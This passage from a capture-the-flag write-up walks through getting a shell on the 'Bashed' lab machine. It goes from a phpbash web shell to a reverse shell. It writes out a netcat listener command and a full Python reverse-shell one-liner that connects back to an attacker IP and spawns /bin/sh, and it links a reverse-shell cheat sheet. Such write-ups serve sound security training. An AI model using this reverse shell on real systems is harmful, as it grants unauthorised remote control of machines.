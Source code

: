     pwd

    ls

![](/images/bashed/9. phpbash_2.png "phpbash")

Here we have code execution as a low-privileged user, but this is not the smoothest of interfaces. Perhaps we can use a bash one-liner to trigger a reverse tcp shell?  

<p>&nbsp;</p>
=======================================================

## Exploitation using Metasploit

=======================================================

None! This box is an example of purely manual enumeration and exploitation. Have fun!

<p>&nbsp;</p>
=======================================================

## Manual Exploitation

=======================================================

Let's Google bash one-liner reverse shells:

![](/images/bashed/10. google.png "google")

This pentestmonkey site is a favorite: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

![](/images/bashed/11. pentestmonkey.png "pentestmonkey")

While there are many reverse shells on the pentestmonkey site, the python reverse shell shown above is normally a solid one to use against a linux machine. On our Kali machine, let's set up a nc listener to catch the connection:

    nc -lvnp 17011

![](/images/bashed/12. nc_listener.png "nc listener")

Before sending the python one-liner, you must add your IP address and listener port in the "s.connect(( ))" portion of the code.

Then in the phpbash window:

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",17011));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

A note here: Bashed is an older machine so it is fine to default to using "python" which is normally symlinked to python2. In newer machines (Ubuntu 20.04 on onward) you will want to specify "python3" instead as python2 may not be supported. 

![](/images/bashed/13. nc_connection.png "nc connection")
